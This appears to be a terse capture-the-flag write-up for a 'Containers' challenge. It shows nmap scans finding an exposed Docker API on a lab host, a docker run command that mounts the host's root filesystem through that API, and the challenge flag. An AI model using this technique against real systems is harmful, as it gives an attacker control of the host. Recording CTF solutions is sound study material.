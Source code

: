 # Containers

Please assess the security of our new web app. The staging environment for our new app is on: 10.0.111.[100 + your_team_number] 

---------------------

nmap -sV --script=http-php-version -Pn 10.0.106.6 --dns-servers 192.168.100.1

[localhost tmctf2019-finals]$ nmap -p- -Pn 10.0.111.106 --dns-servers 192.168.100.1
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-23 18:18 PST
Nmap scan report for 10.0.111.106
Host is up (0.00076s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE
113/tcp  closed ident
8000/tcp open   http-alt
8080/tcp open   http-proxy

Nmap done: 1 IP address (1 host up) scanned in 119.35 seconds

------------------------------

(env-py2) [localhost tmctf2019-finals]$ nmap -sV -sC -Pn 10.0.111.106 --dns-servers 192.168.6.1                         
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-23 21:57 PST
Nmap scan report for 10.0.111.106
Host is up (0.00054s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
113/tcp  closed ident
8000/tcp open   http       Ajenti http control panel
|_http-title: Quality containers - Homepage
8080/tcp open   http-proxy Docker/19.03.4 (linux)
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: application/json
|     Date: Sun, 24 Nov 2019 05:57:42 GMT
|     Content-Length: 29
|     {"message":"page not found"}
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Api-Version: 1.40
|     Docker-Experimental: false
|     Ostype: linux
|     Server: Docker/19.03.4 (linux)
|     Date: Sun, 24 Nov 2019 05:57:42 GMT
|_    Content-Length: 0
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Docker/19.03.4 (linux)
|_http-title: Site doesn't have a title (application/json).


-------

DOCKER_HOST=tcp://10.0.111.106:8080 docker run -it -v /:/app ubuntu:latest

--------

/home/ctf/container-bridge/populate.py:    flag = 'TMCTF{muggedby2candies!}'
